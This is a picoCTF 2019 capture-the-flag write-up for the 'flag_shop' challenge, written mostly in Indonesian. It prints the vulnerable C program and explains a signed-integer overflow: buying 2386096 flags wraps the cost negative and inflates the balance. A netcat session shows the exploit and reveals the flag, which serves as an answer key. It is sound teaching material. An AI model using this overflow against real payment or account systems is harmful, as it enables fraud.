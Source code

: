 # flag_shop

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Tags: picoCTF 2019, General Skills, Medium
Author: DANNY

Description:
There's a flag shop selling stuff, can you buy a flag? Source. 

Connect with nc jupiter.challenges.picoctf.org 4906.

Hints:
1. Two's compliment can do some weird things when numbers get really big!
```
Challenge link: [https://play.picoctf.org/practice/challenge/49](https://play.picoctf.org/practice/challenge/49)

## Solution

### Analyse the setup

Mulai mengecek isi daari C source code yang diberikan 
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

Perlu diperhatikan bahwa variabel account_balance adalah bilangan bulat bertanda, bukan bilangan bulat tak bertanda. (int saldo_akun = 1100;)
Ini berarti variabel tersebut dapat menyimpan nilai positif maupun negatif. [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement).  

Kita dapat memanfaatkan fakta ini dengan membuat nilai berputar kembali melalui pembelian yang mahal/banyak.
Nilai tersebut harus lebih besar dari `2**31 - 1` untuk bilangan bulat 32-bit.

Setiap bendera `Definitely not the flag` berharga `900`, dan bendera `1337 Flag` berharga `100000`. Saldo awal kita adalah `1100`.
Jadi, jika kita membeli `(2**31 - 1 - 1100 + 100000) // 900` bendera, nilai saldo akan berputar kembali.

### Get the flag

Langsung Kita Jalankan Programnya dengan membeli `2386096` bendera
```bash 
┌──(kali㉿kali)-[~/Downloads]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386096

The final cost is: -2147480896

Your current balance after transaction: 2147481996

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
```


## References

- [Wikipedia - Two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)

